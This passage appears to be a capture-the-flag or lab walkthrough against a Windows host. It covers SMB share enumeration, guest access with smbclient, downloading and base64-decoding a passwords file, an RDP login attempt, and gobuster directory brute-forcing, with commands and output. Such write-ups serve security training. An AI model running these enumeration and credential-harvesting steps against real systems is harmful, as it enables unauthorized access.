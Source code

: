 ```
|   \\10.10.6.212\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE
```

As you can see, we have guest access to the IPC and nt4wrksv shares. Let's connect and see what we can find. 
```
$ smbclient //10.10.6.212/IPC$ -U guest
```
There doesn't appear to be anything on the IPC share so we'll try the nt4wrksv share.
Here we find a file passwords.txt so we'll download that and examine it on our host machine.
```
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit

$ cat passwords.txt                       
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk 
```
These appear to be base64 encoded.
```
$ echo Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d                  
Bob - *************

$ echo QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk | base64 -d                  
Bill - *************
```
Now we have credentials for users Bob and Bill. This conveniently takes us to the RDP port that we saw open and we'll try to login with these credentials.
#### RDP
Using xfreerdp to attempt authentication with our newfound credentials
```
$ xfreerdp /u:Bill /v:10.10.6.212
```
Neither set of credentials allowed us to login so we'll move on to the next port in our list. 
#### Port 49663
![[Pasted image 20240708115058.png]]
Once again, it appears to be a default install of IIS. Let's run gobuster again and see if we get different results.
```
$ gobuster dir -u http://10.10.6.212:49663 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
Starting gobuster in directory enumeration mode
===============================================================
/*checkout*           (Status: 400) [Size: 3420]
/*docroot*            (Status: 400) [Size: 3420]
/*                    (Status: 400) [Size: 3420]
/http%3A%2F%2Fwww     (Status: 400) [Size: 3420]
/http%3A              (Status: 400) [Size: 3420]
/q%26a                (Status: 400) [Size: 3420]
/**http%3a            (Status: 400) [Size: 3420]
/*http%3A             (Status: 400) [Size: 3420]
/**http%3A            (Status: 400) [Size: 3420]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 3420]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 3420]
/http%3A%2F%2Fblog    (Status: 400) [Size: 3420]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 3420]
/s%26p                (Status: 400) [Size: 3420]
```